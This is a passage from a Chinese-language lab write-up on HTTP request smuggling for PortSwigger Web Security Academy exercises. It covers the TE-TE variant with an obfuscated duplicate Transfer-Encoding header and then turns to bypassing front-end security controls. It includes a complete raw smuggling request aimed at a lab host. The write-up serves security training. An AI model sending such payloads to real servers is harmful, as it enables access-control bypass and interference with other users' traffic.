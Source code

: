 流程与CL-TE相同，Front服务器处理的时候会TE优先处理，认为是一个请求，Backend服务器处理的时候会认为上面是两个请求（CL优先处理），造成GPOST请求。

## Two Identical Fields - TE

LAB：[Lab: HTTP request smuggling, obfuscating the TE header](https://portswigger.net/web-security/request-smuggling/lab-ofuscating-te-header)

>   本实验涉及前端和后端服务器，这两个服务器以不同的方式处理重复的 HTTP 请求标头。 前端服务器拒绝不使用 GET 或 POST 方法的请求。
>
>   解决实验室，偷偷向后端服务器发送一个请求，让后端服务器处理的下一个请求出现使用GPOST方法。

此场景是一个TE-TE场景，比如说在处理两个 TE 字段，如果取第二个 TE 字段作为解析标准，而第二个字段值非正常或者解析出错，就可能会忽略掉 TE 字段，而使用 CL 字段进行解析，之后成为CL-TE。

```http
POST / HTTP/1.1
Host: 0abb002603fd1939c0ecec4600b8000a.web-security-academy.net
Content-length: 4
Transfer-Encoding: chunked
Transfer-encoding: nothing

12
GPOST / HTTP/1.1

0

//这里和上面的一样，0后面有两个CRLF
```

发送两次如上请求：

![image-20221006175542093](2022-10-HTTP/image-20221006175542093.png)

Front服务器处理时对第一个TE处理，认为是正常请求，给Backend服务器，Backend以第二个TE处理，非正常，使用CL处理，之后被拆分为两个请求。

# Attack Surface

上面是几种常见的攻击方式，下面来演示这些攻击方式可以用来干嘛

## Bypass Front-end Security Controls

两个lab，一个是CL-TE，一个是TE-CL，达到的目的一样：

-   [Lab: Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability](https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-cl-te)
-   [Lab: Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability](https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-te-cl)
